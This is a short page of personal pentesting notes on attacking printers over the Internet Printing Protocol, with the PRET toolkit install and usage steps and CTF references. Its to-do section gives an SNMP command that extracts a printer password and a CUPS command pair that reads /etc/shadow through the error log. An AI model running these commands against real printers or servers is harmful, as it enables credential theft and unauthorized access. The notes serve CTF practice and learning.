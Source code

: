 # Internet Printing Protocol (IPP)

<div class="row row-cols-lg-2"><div>

The Internet Printing Protocol (IPP) is protocol to manage printers and print jobs, query printer status, and other tasks.

🐊️ **Port**: 631 (TCP)

Refer to the [IPP Guide](https://www.pwg.org/ipp/ippguide.html). Not all printers use the IPP protocol. See also: [Hacking Network Printers](https://www.irongeek.com/i.php?page=security/networkprinterhacking).
</div><div>
</div></div>

<hr class="sep-both">

## IPP vulnerabilities ☠️

[![printerhacking101](../../../cybersecurity/_badges/thm/printerhacking101.svg)](https://tryhackme.com/room/printerhacking101)

<div class="row row-cols-lg-2"><div>

👉 See the [Printer Security Testing Cheat Sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet).

You can use the [PRET](https://github.com/RUB-NDS/PRET) (3.4k ⭐) toolkit to try to exploit printers using the IPP protocol. You can install it using: 

```shell!
$ git clone https://github.com/RUB-NDS/PRET && cd PRET
$ python2 -m pip install colorama pysnmP
```

Discover printers

```ps
$ python pret.py
```

</div><div>

Once you found a printer, you must find which language the printer understands

* `xxx.lan ps`: Postscript language
* `IP pjl`: Printer Job language
* `/dev/usb/lp0 pcl`: Printer Command Language, Must be directly connected <small>(for instance, by USB)</small>.

```ps
$ python pret.py [options above]
xxx> help
```

➡️ You can check the web interface <small>(IP:631)</small> if any.

➡️ You may use [PRETty](https://github.com/BusesCanFly/PRETty) (0.2k ⭐), an automation of PRET in python.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

[![antique](../../../cybersecurity/_badges/htb-p/antique.svg)](https://app.hackthebox.com/machines/Antique)

* SNMP could be used to get the printer password (`snmpget -v 1 -c public IP .1.3.6.1.4.1.11.2.3.9.1.1.13.0`) 

```py
bytes_hex = "<returned bytes here>"
bytes_list = bytes_hex.split()
print("".join([chr(int(byte, 16)) for byte in bytes_list]))
```

* CUPS (CVE-2012-5519 == arbitrary read or if there are printers, we can also use [CVE-2015-1158](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py))

```
$ cupsctl ErrorLog=/etc/shadow
$ curl localhost:631/admin/log/error_log?
```
</div><div>
</div></div>